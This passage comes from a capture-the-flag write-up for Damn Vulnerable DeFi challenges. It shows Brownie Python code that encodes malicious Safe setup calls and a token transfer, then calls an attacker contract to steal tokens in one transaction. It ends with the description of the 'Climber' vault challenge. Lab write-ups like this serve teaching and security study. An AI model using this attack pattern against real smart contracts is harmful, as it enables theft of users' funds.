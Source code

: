 To generate the data for this calls I just used the `encode_input` method in Brownie:

+ `setup()` call

```py
# malicious calls list
malicious_setup_calls = []

# loop over addresses
for user in users: 

    # setup call encoding from master copy
    malicious_setup_calls.append(
        master_copy.setup.encode_input(
            [user],
            1,
            ZERO_ADDRESS,
            0,
            token.address,
            ZERO_ADDRESS,
            0,
            ZERO_ADDRESS
        )
    )
```

+ `transfer()` call

```py
token_stealing_call = token.transfer.encode_input(
    attacker.address, 
    AMOUNT_TOKENS_DISTRIBUTED // len(users)
)
```

And then just call the attacker contract function to do it all in one transaction:

```py
attacker_contract.deploySafesAndStealTokens(
    malicious_setup_calls, 
    token_stealing_call, 
    _fromAttacker
)
```

***

## Climber

### Challenge description

>There's a secure vault contract guarding 10 million DVT tokens. The vault is upgradeable, following the UUPS pattern.
>
>The owner of the vault, currently a timelock contract, can withdraw a very limited amount of tokens every 15 days.
>
>On the vault there's an additional role with powers to sweep all tokens in case of an emergency.
>
>On the timelock, only an account with a "Proposer" role can schedule actions that can be executed 1 hour later.
>
>Your goal is to empty the vault. 
